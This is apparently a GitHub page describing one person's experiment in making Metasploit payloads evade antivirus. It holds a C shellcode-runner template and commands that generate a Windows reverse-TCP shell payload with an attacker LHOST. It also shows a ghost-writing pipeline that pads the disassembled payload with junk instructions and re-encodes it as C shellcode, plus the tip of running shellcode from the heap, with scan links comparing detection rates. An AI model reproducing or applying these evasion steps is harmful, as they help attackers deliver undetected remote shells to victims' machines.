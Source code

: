 The next section is my experiment and some scan report.

## Experiment on bypass Antivirus software

I want to bypass all av with metasploit generated payload. this is my program template to inject payload:

```c
#include <stdio.h>
/* shellprogram.c */
char code[] = 
"<payload here>"
"";
int main(int argc, char *argv[])
{
    int (*exeshell)();
    exeshell = (int (*)()) code;
    (int)(*exeshell)();
  }
```

To avoid the signature detection of the well-known metasploit payload, You can disassemble it and add random non-sense instructions(for example， push and pop) to make the binary different from the original one. You can simply write a script to automatic this like I do.[^2] Finally, get the new C style shellcode.

     ~/Work/project/bypassav ⮀ ~/metasploit-framework/msfpayload windows/shell/reverse_tcp LHOST=192.168.56.102 R > shell_reverse_raw
     ~/Work/project/bypassav ⮀ python ndisasm.py shell_reverse_raw > ghost-writing.asm
     ~/Work/project/bypassav ⮀ nasm ghost-writing.asm -o new
     ~/Work/project/bypassav ⮀ od -tx1 test.o | cut -c8-80 | sed -e 's/ /\\x/g' | sed -e 's/^/"/g' | sed -e 's/$/"/g'

Bypass all AVs' detection is a challenge, for to avoid one AV you may trigger another one. The program above will bypass most but Asquared.

Why? I try to remove my shellcode just test the template, It will still be marked by avs. You can check the report [here](http://vscan.novirusthanks.org/analysis/684ebdecaf29c41841833d9738c4ccac/Yy1ub25lLWV4ZQ==/) and [here](http://r.virscan.org/report/d35e77a1472bea0119ca8d1ec56d7b1a.html)
     
So it looks like execute from the data section is suspicious! There must many people use this tricks!

So I decided to copy it to heap and execute shellcode from heap.

[No shellcode and execute from heap](http://vscan.novirusthanks.org/analysis/312caba7ca97f0b0b6deee4e0ebb2b7a/Yy1zaGVsbC1yZXZlcnNlLW5hc20taGVhcC1ndy11/), No AV mark it as malicious. Another [Report here](https://www.metascan-online.com/en/scanresult/file/dc5c7080fc44495f880facfdfc2b9eb1)

So, move your modified shellcode(You must Modified it so won't be checked before execution) to heap and execute from heap. However, some AVs can detect it, here's the [report](https://www.metascan-online.com/en/scanresult/file/e3442be2dd0f4a089a2c16db2d387880) and [another one](http://vscan.novirusthanks.org/analysis/312caba7ca97f0b0b6deee4e0ebb2b7a/Yy1zaGVsbC1yZXZlcnNlLW5hc20taGVhcC1ndy11/).

make the modified upsidedown won't bypass it and the name it marked never change. So I doubt these avs use sandbox to detect my shellcode.


[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s